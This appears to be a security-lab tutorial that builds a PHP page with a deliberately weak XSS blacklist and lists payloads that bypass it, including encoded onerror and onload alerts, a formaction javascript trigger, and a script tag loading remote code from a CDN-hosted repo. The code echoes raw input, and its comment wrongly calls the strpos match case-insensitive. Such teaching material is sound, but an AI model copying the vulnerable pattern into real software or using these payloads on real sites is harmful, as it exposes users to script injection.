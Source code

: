# Write A Web Application With Insecure XSS Filters
An insecure XSS filter occurs when an application fails to properly validate user input, allowing attackers to inject malicious code into web pages. Some developers use blacklists to block dangerous strings like `<script` or `onload=` but often miss edge cases, leaving the application vulnerable to XSS attacks.

## References
- [OWASP - XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) by OWASP
- [How-To - Disable Browser Security Features](https://www.postexplo.com/forum/security-in-general/terms/610-how-to-disable-browser-security-features) by Resheph on PosteXplo
- [XSS Filter Evasion and WAF Bypassing Tactics](https://n3t-hunt3r.gitbook.io/pentest-book) by n3t_hunt3r
- [Bypassing Signature-Based XSS Filters: Modifying HTML](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-html) by PortSwigger

## Tasks
- Write a simple web application containing multiple input fields that are vulnerable to cross-site scripting
- Apply insecure filtering mechanisms to these input fields, such as a blacklist that attempts to block commonly known dangerous XSS keywords
- Develop a blacklist containing at least 30 dangerous XSS keywords (e.g., `<script>`, `onload=`, `alert(`, etc.) that you plan to use to try and protect the input fields
- Use various XSS techniques, such as HTML encoding, JavaScript obfuscation, and bypassing blacklist filters, to inject malicious JavaScript code into the input fields
- Verify that the injected malicious JavaScript code is executed on the web application's frontend, demonstrating the bypass of the insecure XSS filters

## Practical Approach
1. Create a new PHP file named `vulnerable_xss.php` in the htdocs folder in XAMPP 
2. PHP for vulnerable web application:
   ```
   <?php
   // XSS Blacklist - intentionally weakened to make it easier to bypass
   $blacklist = [
       "<script>", "</script>", "<img>", "<svg>", "onload=", "onerror=",
       "alert(", "prompt(", "confirm(", "javascript:", "document.cookie",
       "window.location", "eval(", "setTimeout(", "setInterval(",
       "innerHTML", "outerHTML", "src=", "href=", "<iframe>", "</iframe>",
       "expression(", "vbscript:", "style=", "onmouseover=", "onfocus=",
       "onblur=", "onclick=", "onkeypress=", "onkeyup=", "onkeydown="
   ];
   
   // Function to check for blacklisted words
   function is_blacklisted($input, $blacklist) {
       // Weak blacklisting: no decoding, no normalization
       foreach ($blacklist as $word) {
           // Case-insensitive match for raw strings
           if (strpos($input, $word) !== false) {
               return true;
           }
       }
       return false;
   }
   
   // Handle form submission
   if ($_SERVER['REQUEST_METHOD'] === 'POST') {
       $user_input = $_POST['user_input'];
       
       // Check if input contains any blacklisted words
       if (is_blacklisted($user_input, $blacklist)) {
           echo "Input rejected: contains blacklisted content.";
       } else {
           // Directly echo input into the page (vulnerable to XSS)
           echo "User Input: " . $user_input;
           // echo "<div>User Input: $user_input</div>";
       }
   }
   ?>
   
   <!DOCTYPE html>
   <html lang="en">
   <head>
       <meta charset="UTF-8">
       <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>Insecure XSS Filter</title>
   </head>
   <body>
       <h1>Vulnerable XSS Web App</h1>
       <form action="" method="POST">
           <label for="user_input">Enter some text:</label><br>
           <input type="text" id="user_input" name="user_input" size="100"><br><br>
           <input type="submit" value="Submit">
       </form>
   </body>
   </html>
   ```
3. Despite the blacklist, the following XSS techniques could bypass the filtering
   - HTML encoding: Some browsers might interpret encoded characters that resemble dangerous inputs. For instance:
     Using `&#x3C;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3E;` instead of `<script>`
   - Event Handlers in Other Elements:
     Example: `<img src="x" onerror="alert('XSS')">` might bypass filters if `onerror=` is not blacklisted correctly
   - Obfuscation Techniques:
     Using techniques such as breaking keywords (e.g., `java + script:`) to bypass string-based filters
4. To test the vulnerability, use the following payloads
   SVG element with onload event handler
   ```
   <svg ONLOAD="&#x61;&#x6c;&#x65;&#x72;&#x74;(1)">
   ```
   IMG onerror and JavaScript Alert Encode
   ```
   <img SRC=x ONERROR="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
   ```
   Basic XSS Test Without Filter Evasion
   ```
   <SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
   ```
   URL string evasion
   ```
   <A HREF="http://www.google.com./">XSS</A>
   ```
   Trigger JavaScript execution using formaction
   ```
   <form><button formaction=JAVASCRIPT&colon;ALERT(1)>CLICKME
   ```
5. For validation purposes, ensure that the injected JavaScript successfully executes on the frontend (e.g., showing an alert box) and different bypass techniques successfully trigger the XSS, demonstrating the insecure filter
